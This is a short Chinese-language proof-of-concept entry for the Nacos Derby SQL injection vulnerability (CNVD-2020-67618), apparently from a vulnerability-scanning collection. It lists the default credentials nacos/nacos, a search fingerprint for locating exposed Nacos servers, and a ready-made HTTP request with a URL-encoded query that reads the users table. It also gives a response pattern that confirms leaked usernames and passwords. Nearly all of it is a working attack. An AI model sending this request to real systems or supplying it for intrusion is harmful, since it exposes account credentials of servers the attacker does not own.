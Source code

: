 ﻿# Nacos Derby SQL注入漏洞

> 更新时间：2024-04-19

> 漏洞编号：CNVD-2020-67618

> 漏洞说明：默认密码nacos nacos

> 漏洞特征：app="nacos"

> 验证脚本：HTTP

```
GET /nacos/v1/cs/ops/derby?sql=%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%75%73%65%72%73 HTTP/1.1

```

> 响应代码特征：200

> 响应内容特征：^(?=.*?USERNAME)(?=.*?PASSWORD).*?$

> 上传文件定位：

> 验证文件来源：Nacos Derby SQL注入漏洞.poc

